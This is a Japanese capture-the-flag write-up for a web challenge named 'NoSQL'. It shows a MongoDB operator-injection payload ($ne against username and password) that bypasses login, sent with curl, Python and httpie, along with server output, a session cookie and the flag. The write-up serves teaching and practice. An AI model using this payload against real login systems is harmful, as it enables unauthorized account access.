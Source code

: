 ```yaml
---
title: "NoSQL"
level: 3
flag: "FLAG{n0_sql_1nj3ction}"
writer: "suuhito"
badge: true
---
```


# NoSQL

## 問題文
NoSQLを使ったサイトを作ってみました。ログイン後に`/`にアクセスすると秘密のページを見ることができます。

<https://nosql.web.wanictf.org/>

## フラグ

`FLAG{n0_sql_1nj3ction}`

## 解法
* `app/routes/login.js`を見ると、MongoDBを使ったユーザ認証が行われていることがわかります。
* `app/routes/login.js`の19行目から、ユーザから送信された`username`と`password`を利用してDBからユーザを取得し、もしユーザが存在するならログインが成功するという処理が行われています。
* `username`や`password`はユーザから送信されたデータそのままが利用されています。そのため、送信するデータを工夫することで[MongoDBのQuery Operator](https://docs.mongodb.com/manual/tutorial/query-documents/#specify-conditions-using-query-operators)を使用することができる可能性があります。
* [Query Operatorの種類](https://docs.mongodb.com/manual/reference/operator/query/)を確認すると、`$ne`(not equal)があります。これを利用して、`username`が""(空文字)ではない人で取得すれば、確実にユーザは存在し、不正にログインすることができそうです。
* `Query Operator`を使用するためには`username`に文字列ではなく`Object`を送信する必要があります。そのためにはJSON形式を利用するのが簡単ですが、`app/app.js`の20行目を見るとこのサーバはJSON形式を受け入れるようになっているため、攻撃できそうだとわかります。
* 試しに`{"username": {"$ne": ""}, "password": {"$ne": ""}}`のようなJSONを送信してみると、以下のように表示されます。
```sh
$ curl -X POST https://nosql.web.wanictf.org/login -H "Content-Type: application/json" -d '{"username": {"$ne": ""}, "password": {"$ne": ""}}'
Found. Redirecting to /
```
* これは`app/routes/login.js`の28行目の`res.redirect("/");`が動作したことを意味しているため、ログインに成功したことが分かります！
* `/`にアクセスしなければ秘密のページ(FLAG)は見れません。しかしcurlで`/`にアクセスするだけではログインページに飛ばされてしまいます。
```sh
$ curl https://nosql.web.wanictf.org/
Found. Redirecting to /login
```
* ログインできたはずなのに、ログインできていないように見えるのは、サーバがログイン状態を認識するために使っている情報を送信できていないことが原因です。先ほどのログインに成功したコマンドにレスポンスヘッダをすべて表示するオプション`-i`を付けてみます。
```sh
$ curl -X POST https://nosql.web.wanictf.org/login -H "Content-Type: application/json" -d '{"username": {"$ne": ""}, "password": {"$ne": ""}}' -i
HTTP/2 302
content-type: text/plain; charset=utf-8
date: Sun, 07 Nov 2021 07:47:11 GMT
location: /
set-cookie: connect.sid=s%3Au1ek_W7S_UEwInihas5l7ePcv2ZZbTvZ.m4IeSOS3Pb5hFjclrB%2B1g%2FUnd6NQu7oBI9qDo4lsreE; Path=/; HttpOnly
vary: Accept
x-powered-by: Express
content-length: 23

Found. Redirecting to /
```
* サーバはクライアントに対して`set-cookie`ヘッダを利用して「あなたのログイン状態を認識するためにこの値を送信してください」と伝えてくれています。よって`/`にアクセスする際にこの値をヘッダにつけてアクセスします。
```
$ curl https://nosql.web.wanictf.org/ -H "cookie: connect.sid=s%3Au1ek_W7S_UEwInihas5l7ePcv2ZZbTvZ.m4IeSOS3Pb5hFjclrB%2B1g%2FUnd6NQu7oBI9qDo4lsreE; Path=/; HttpOnly"
<!DOCTYPE html>
<html>
  <head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.5.3/dist/css/bootstrap.min.css"
      integrity="sha384-TX8t27EcRE3e/ihU7zmQxVncDAy5uIKz4rEkgIXeMed4M0jlfIDPvg6uqKI2xXr2" crossorigin="anonymous">
  </head>

  <body>
    <nav class="navbar navbar-expand-sm navbar-light bg-light">
      <a class="navbar-brand" href="/">NoSQL Challenge</a>
      <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarSupportedContent"
        aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
        <span class="navbar-toggler-icon"></span>
      </button>
      <div class="collapse navbar-collapse" id="navbarSupportedContent">
        <ul class="navbar-nav ml-auto">
          <li class="nav-item">

              <a class="nav-link" href="/logout">ログアウト</a>

          </li>
        </ul>
      </div>
    </nav>
    <div class="container">

      FLAG{n0_sql_1nj3ction}
    </div>
    <script src="https://code.jquery.com/jquery-3.5.1.slim.min.js"
      integrity="sha384-DfXdz2htPH0lsSSs5nCTpuj/zy4C+OGpamoFVy38MVBnE+IbbVYUew+OrCXaRkfj"
      crossorigin="anonymous"></script>
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@4.5.3/dist/js/bootstrap.bundle.min.js"
      integrity="sha384-ho+j7jyWK8fNQe+A12Hb8AhRq26LrZ/JpcUGGOn+Y7RsweNrtN/tE3MoK7ZeZDyx"
      crossorigin="anonymous"></script>
  </body>
</html>
```
* 無事FLAGを入手できました！
* 実は`requests`はデフォルトでリダイレクトを処理するため、`requests`で解くとcookieで惑わされたりしません。また、`httpie`にも`--follow`オプションがあります。
```python
import requests
print(requests.post("https://nosql.web.wanictf.org/login", json={"username": {"$ne": ""}, "password": {"$ne": ""}}).text)
```
```sh
# httpie
http post https://nosql.web.wanictf.org/login username:='{"$ne": ""}' password:='{"$ne": ""}' --follow
```
